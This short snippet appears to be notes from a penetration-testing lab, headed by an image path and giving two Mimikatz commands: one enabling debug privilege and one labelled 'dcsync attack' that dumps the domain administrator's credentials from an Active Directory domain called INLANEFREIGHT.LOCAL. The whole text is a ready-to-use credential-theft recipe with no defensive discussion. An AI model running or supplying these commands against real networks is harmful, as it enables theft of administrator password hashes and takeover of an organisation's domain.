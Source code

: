 
debug
```powershell-session
privilege::debug
```

dcsync attack
```powershell-session
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```
